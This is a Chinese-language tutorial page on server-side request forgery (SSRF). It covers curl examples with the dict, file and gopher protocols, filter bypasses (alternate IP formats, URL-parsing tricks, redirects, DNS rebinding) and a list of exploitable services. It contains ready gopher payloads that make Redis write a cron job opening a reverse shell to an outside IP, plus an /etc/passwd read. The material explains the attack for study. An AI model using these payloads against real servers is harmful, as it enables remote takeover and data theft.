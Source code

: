 SSRF
================================

漏洞危害
--------------------------------
1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;
2. 攻击运行在内网或本地的应用程序（比如溢出）;
3. 对内网Web应用进行指纹识别，通过访问默认文件实现;
4. 攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;
5. 利用File协议读取本地文件。


利用方式
--------------------------------
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例

::

    # dict protocol (操作Redis) 

    curl -vvv 'dict://127.0.0.1:6379/info' # file protocol (任意文件读取) 

    curl -vvv 'file:///etc/passwd' # gopher protocol (一键反弹Bash) 

    # * 注意: 链接使用单引号，避免$变量问题

    curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a' 


过滤绕过
--------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
::

    ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$

    ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

    ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

::

    8进制格式：0300.0250.0.1

    16进制格式：0xC0.0xA8.0.1

    10进制整数格式：3232235521

    16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1


利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

http://www.baidu.com@192.168.0.1/

当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。


利用302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

(1) 在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。

(2) 由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，不过tinyurl.com所提供的短地址服务支持IP方式。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

(1) GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

(2) File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容


DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

    (1) 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP

    (2) 对于获得的IP进行判断，发现为非黑名单IP，则通过验证

    (3) 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。

    (4) 由于已经绕过验证，所以服务器端返回访问内网资源的结果。


可能利用的协议
--------------------------------
- ftp、ftps （FTP爆破） 
- tftp（UDP协议扩展） 
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- rtsp - smb/smbs （连接SMB） 
- telnet 
- 连接SSH/Telnet 
- http、https - 内网服务探测 
- 网络服务探测 
- ShellShock命令执行 
- JBOSS远程Invoker war命令执行 
- Java调试接口命令执行 
- axis2-admin部署Server命令执行 
- Jenkins Scripts接口命令执行 
- Confluence SSRF 
- Struts2一堆命令执行 
- counchdb WEB API远程命令执行 
- mongodb SSRF 
- docker API远程命令执行 
- php_fpm/fastcgi 命令执行 
- tomcat命令执行 
- Elasticsearch引擎Groovy脚本命令执行 
- WebDav PUT上传任意文件 
- WebSphere Admin可部署war间接命令执行 
- Apache Hadoop远程命令执行 
- zentoPMS远程命令执行 
- HFS远程命令执行 
- glassfish任意文件读取和war文件部署间接命令执行